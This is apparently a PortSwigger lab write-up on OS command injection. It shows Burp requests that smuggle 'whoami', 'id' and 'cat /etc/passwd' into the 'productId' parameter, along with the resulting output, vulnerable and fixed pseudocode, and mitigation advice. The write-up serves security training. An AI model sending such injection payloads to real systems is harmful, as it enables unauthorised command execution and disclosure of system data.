

# Lab 01: OS Command Injection, Simple Case

> **Topic**: OS Command Injection
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
OS Command Injection — Inline Injection via Shell Metacharacter (`;`) in POST Parameter

## Vulnerability Summary
The application's stock-check feature passes user-supplied `productId` and `storeId` parameters directly to a shell script (`stockreport.sh`) without sanitization. By injecting a semicolon (`;`) — a shell command separator — into the `productId` parameter, an attacker can append arbitrary OS commands that execute in the context of the web server process. The injected `whoami` command executes successfully, confirming unauthenticated OS command injection.

## Attack Methodology

### Step 1: Identify the Target Endpoint
Intercepted the stock-check POST request in Burp Suite Repeater:

```http
POST /product/stock HTTP/2
Host: 0a84007b0386063080430da3002500ae.web-security-academy.net
Cookie: session=qgiu4l01kZQwpGumAYBeYEO45aEXk8ee
Content-Type: application/x-www-form-urlencoded

productId=2&storeId=1
```

The parameters `productId` and `storeId` are passed to a backend shell script.

### Step 2: Inject OS Command via Semicolon Separator
Modified the `productId` parameter to inject a `whoami` command using `;` as a shell separator:

```http
POST /product/stock HTTP/2
Host: 0a84007b0386063080430da3002500ae.web-security-academy.net
Cookie: session=qgiu4l01kZQwpGumAYBeYEO45aEXk8ee
Content-Type: application/x-www-form-urlencoded

productId=2;whoami&storeId=1
```

The backend effectively executes:
```bash
/home/peter-M8Thu7/stockreport.sh 2;whoami 1
```

Which the shell interprets as two separate commands:
```bash
/home/peter-M8Thu7/stockreport.sh 2
whoami 1
```

### Step 3: Observe Command Execution in Response
The server returned HTTP 200 with the following output:

```
/home/peter-M8Thu7/stockreport.sh: line 5: $2: unbound variable
whoami: extra operand '1'
Try 'whoami --help' for more information.
```

The error output confirms:
- The shell script ran with the truncated argument (`2` only, since `;` ended the first command)
- `whoami` executed as a second command — the `extra operand '1'` error is because `storeId=1` was passed as an argument to `whoami`, not the script
- OS command injection is confirmed



## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import subprocess

def check_stock(request):
    product_id = request.POST.get('productId')
    store_id = request.POST.get('storeId')
    # VULNERABLE: user input concatenated directly into shell command
    output = subprocess.check_output(
        f'/home/peter-M8Thu7/stockreport.sh {product_id} {store_id}',
        shell=True
    )
    return HttpResponse(output)
```

With `productId=2;whoami`, the shell receives:
```
/home/peter-M8Thu7/stockreport.sh 2;whoami 1
```
The `;` terminates the first command and starts a new one.

### Secure Code (Pseudocode)
```python
import subprocess, re

def check_stock(request):
    product_id = request.POST.get('productId', '')
    store_id = request.POST.get('storeId', '')

    # Validate: only allow numeric IDs
    if not re.fullmatch(r'\d+', product_id) or not re.fullmatch(r'\d+', store_id):
        return HttpResponseBadRequest('Invalid input')

    # Pass as list — no shell interpretation, no injection possible
    output = subprocess.check_output(
        ['/home/peter-M8Thu7/stockreport.sh', product_id, store_id]
    )
    return HttpResponse(output)
```

Using `shell=False` with a list of arguments means the OS passes each argument directly to the process — shell metacharacters like `;`, `|`, `&&`, `` ` `` have no special meaning.

## Impact
- **Arbitrary Command Execution**: Any OS command can be run as the web server user
- **Information Disclosure**: System user, file contents, environment variables exposed
- **Potential Full Compromise**: Depending on server permissions — read `/etc/passwd`, write SSH keys, establish reverse shells

**Severity: Critical**

## Proof of Concept

```http
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=2;whoami&storeId=1
```

**Response:**
```
/home/peter-M8Thu7/stockreport.sh: line 5: $2: unbound variable
whoami: extra operand '1'
Try 'whoami --help' for more information.
```

Command execution confirmed. Further exploitation examples:

```
productId=2;id&storeId=1          # user/group info
productId=2;cat+/etc/passwd&storeId=1   # read system users
productId=2;ls+-la+/home&storeId=1     # list home directories
```

## Key Takeaways
1. **Never Pass User Input to a Shell**: Any parameter that reaches `shell=True` (Python), `exec()` (PHP), `Runtime.exec(cmd)` with string concatenation (Java), or similar is a potential injection point.
2. **Semicolons and Other Metacharacters Are Shell Syntax**: `;`, `|`, `&&`, `||`, `` ` ``, `$()`, `\n` all allow command chaining or substitution. A single unescaped metacharacter is enough.
3. **Error Messages Confirm Injection**: Even when the injected command fails (e.g., `whoami: extra operand '1'`), the error itself proves the command was executed by the shell — this is sufficient to confirm the vulnerability.
4. **Use Parameterized APIs, Not Shell Strings**: The fix is architectural — pass arguments as a list to avoid shell interpretation entirely, not just filter for known-bad characters.

## Mitigation

### 1. Use Shell-Free Subprocess Calls
```python
# Safe: arguments passed as list, shell=False (default)
subprocess.check_output(['/path/to/script.sh', product_id, store_id])
```

### 2. Allowlist Input Validation
```python
if not re.fullmatch(r'\d{1,10}', product_id):
    raise ValueError('Invalid productId')
```
Reject anything that isn't a plain integer before it reaches any system call.

### 3. Principle of Least Privilege
Run the web application as a low-privilege user with no shell access. Even if injection occurs, the blast radius is limited.

### 4. Disable Error Output to Clients
Shell error messages (like the `unbound variable` output here) should never reach HTTP responses — they confirm injection and leak internal paths.

## References
- [PortSwigger — OS Command Injection, Simple Case](https://portswigger.net/web-security/os-command-injection/lab-simple)
- [PortSwigger — OS Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-09*  
*Writeup by vibhxr*
